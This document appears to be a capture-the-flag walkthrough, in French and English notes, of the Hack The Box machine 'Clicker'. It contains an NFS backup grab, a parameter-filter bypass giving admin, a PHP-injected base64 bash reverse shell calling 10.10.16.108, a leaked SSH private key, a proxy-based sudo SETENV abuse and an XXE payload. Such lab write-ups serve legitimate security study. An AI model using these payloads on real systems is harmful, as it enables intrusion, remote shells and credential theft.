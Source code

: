 # enum
```bash
nmap -Pn -sVC -T4 clicker.htb
```   
	PORT     STATE SERVICE VERSION
	22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   256 89:d7:39:34:58:a0:ea:a1:db:c1:3d:14:ec:5d:5a:92 (ECDSA)
	|_  256 b4:da:8d:af:65:9c:bb:f0:71:d5:13:50:ed:d8:11:30 (ED25519)
	80/tcp   open  http    Apache httpd 2.4.52 ((Ubuntu))
	|_http-title: Clicker - The Game
	| http-cookie-flags: 
	|   /: 
	|     PHPSESSID: 
	|_      httponly flag not set
	|_http-server-header: Apache/2.4.52 (Ubuntu)
	111/tcp  open  rpcbind 2-4 (RPC #100000)
	| rpcinfo: 
	|   program version    port/proto  service
	|   100000  2,3,4        111/tcp   rpcbind
	|   100000  2,3,4        111/udp   rpcbind
	|   100000  3,4          111/tcp6  rpcbind
	|   100000  3,4          111/udp6  rpcbind
	|   100003  3,4         2049/tcp   nfs
	|   100003  3,4         2049/tcp6  nfs
	|   100005  1,2,3      46290/udp   mountd
	|   100005  1,2,3      47431/tcp   mountd
	|   100005  1,2,3      53301/udp6  mountd
	|   100005  1,2,3      57413/tcp6  mountd
	|   100021  1,3,4      41757/tcp   nlockmgr
	|   100021  1,3,4      42071/tcp6  nlockmgr
	|   100021  1,3,4      43165/udp   nlockmgr
	|   100021  1,3,4      52504/udp6  nlockmgr
	|   100024  1          37152/udp   status
	|   100024  1          40731/tcp   status
	|   100024  1          49576/udp6  status
	|   100024  1          57089/tcp6  status
	|   100227  3           2049/tcp   nfs_acl
	|_  100227  3           2049/tcp6  nfs_acl

## nfs
```bash
showmount -e clicker.htb 
```
	Export list for clicker.htb:
	/mnt/backups *

```bash
mkdir mnt
sudo mount -t nfs -o vers=4 clicker.htb:/mnt/backups  ./mnt
unzip mnt/clicker.htb_backup.zip
```

# foothold
## code analyse
 cat clicker.htb/db_unit.php
	$db_server="localhost";
	$db_username="clicker_db_user";
	$db_password="clicker_db_password";
	$db_name="clicker";

 cat clicker.htb/save_game.php
	<?php
	session_start();
	include_once("db_utils.php");
	
	if (isset($_SESSION['PLAYER']) && $_SESSION['PLAYER'] != "") {
	        $args = [];
	        foreach($_GET as $key=>$value) {
	                if (strtolower($key) === 'role') {?>
il y a un filtre sur les parametres . il refuse tout ce qui est role
```
cat clicker.htb/admin.php
```
	<?php
	session_start();
	include_once("db_utils.php");
	
	if ($_SESSION["ROLE"] != "Admin") {
	  header('Location: /index.php');?>

Je peux donc ajouter un parametre *role* avec la valeur *Admin*
```bash
curl -i -s -k -X $'GET' \
    -H $'Host: clicker.htb' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate, br' -H $'Connection: close' -H $'Referer: http://clicker.htb/play.php' -H $'Upgrade-Insecure-Requests: 1' \
    -b $'PHPSESSID=j661pj4q6n6f7166cfra9104s4' \
    $'http://clicker.htb/save_game.php?clicks=50&role%0A=Admin&level=2'
```

## revershell
```
rlwrap nc -lnvp 1234
```
```
echo -n 'bash -i >& /dev/tcp/10.10.16.108/1234 0>&1' | base64 -w 0
```
```
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4xMDgvMTIzNCAwPiYx
```

```
<?php system("echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4xMDgvMTIzNCAwPiYx | base64 -d | bash");?>
```
```
%3C?php%20system(%22echo%20YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4xMDgvMTIzNCAwPiYx%20%7C%20base64%20-d%20%7C%20bash%22);?%3E
```

```
curl -i -s -k -X $'GET' \
    -H $'Host: clicker.htb' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate, br' -H $'Connection: close' -H $'Referer: http://clicker.htb/play.php' -H $'Upgrade-Insecure-Requests: 1' \
    -b $'PHPSESSID=j661pj4q6n6f7166cfra9104s4' \
    $'http://clicker.htb/save_game.php?nickname=%3c%3fphp%20system(%22echo%20YmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC4xMC4xNi4xMDgvMTIzNCAwPiYx%20%7c%20base64%20-d%20%7c%20bash%22)%3b%3f%3e&clicks=9999999999&role%0A=Admin&level=80' -v
```

```
curl -i -s -k -X $'POST' \
    -H $'Host: clicker.htb' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate, br' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 31' -H $'Origin: http://clicker.htb' -H $'Connection: close' -H $'Referer: http://clicker.htb/admin.php' -H $'Upgrade-Insecure-Requests: 1' \
    -b $'PHPSESSID=j661pj4q6n6f7166cfra9104s4' \
    --data-binary $'threshold=1000000&extension=php' \
    $'http://clicker.htb/export.php' -v
```


# Lateral movement
username = jack

```
find / -user jack -exec ls -ld {} \; 2>/dev/null | grep -v '^/run\|^/proc\|^/sys'
```
	drwxr-x--- 7 jack jack 4096 Sep  6 12:30 /home/jack
	drwxr-xr-x 2 jack jack 4096 Jul 21  2023 /opt/manage
	-rw-rw-r-- 1 jack jack 256 Jul 21  2023 /opt/manage/README.txt
	-rwsrwsr-x 1 jack jack 16368 Feb 26  2023 /opt/manage/execute_query

J'analyse */opt/manage/execute_query* dans ghidra et GPT
$
```
strings execute_query
strace ./execute_query 4
````

je récupère la clé ssh de jack
$
```bash
/opt/manage/execute_query 5 ../.ssh/id_rsa
```
	-----BEGIN OPENSSH PRIVATE KEY-----
	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
	-----END OPENSSH PRIVATE KEY-----

## PrivEsc
$
```bash
sudo -l
```
	Matching Defaults entries for jack on clicker:
	    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty
	
	User jack may run the following commands on clicker:
	    (ALL : ALL) ALL
	    (root) SETENV: NOPASSWD: /opt/monitor.sh

`SETENV:`: Autorise l'utilisateur à utiliser l'option `-E` ou `--preserve-env` avec sudo, ce qui permet de préserver l'environnement de l'utilisateur lors de l'exécution de la commande.
$	    
```bash
ll /opt/monitor.sh
```
	-rwxr-xr-x 1 root root 504 Jul 20  2023 /opt/monitor.sh

$ Proxy_chain  #ExploitSETENV
```
export http_proxy=http://10.10.16.108:1234
sudo -E /opt/monitor.sh
```

intercept request and modify response in burpsuit 
```
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY xxe SYSTEM "/etc/passwd">
]>
<foo>&xxe;</foo>
```
